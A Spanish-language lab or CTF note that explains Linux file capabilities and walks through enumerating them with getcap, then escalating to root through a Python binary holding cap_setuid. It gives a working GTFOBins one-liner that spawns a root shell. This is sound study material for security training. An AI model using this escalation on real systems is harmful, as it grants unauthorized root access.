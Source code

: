 Las capabilities en Linux otorgan permisos especiales a binarios sin necesidad de ser root.  
Con `getcap /ruta/al/binario` podés verlas.  
La vulnerable es `cap_setuid+ep` (EIP), que permite escalar privilegios a root.

---

# Explicacion de comando y parametros

```
getcap -r / 2>/dev/null
```
*Parametros:*
`-r` Busca de forma recursiva en los directorios
`/` Busca desde la raiz del sistema
`2>/dev/null` Es para que no nos aparezca en nuestro output los errores y los rediriga todos a la carpeta /dev/null

-------
# Enumeracion y explotacion

Usamos el comando `getcap -r / 2>/dev/null` y vemos que tiene una capability en python

![[Cap14.png]]

Vamos a vamos a [gtfobinds](https://gtfobins.github.io/gtfobins/python/#capabilities), nos da este oneliner
![[Cap13.png]]
Lo adaptamos a nuestra maquina, lo ejecutamos y podemos visualizar las flags ``python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'``

![[Cap15.png]]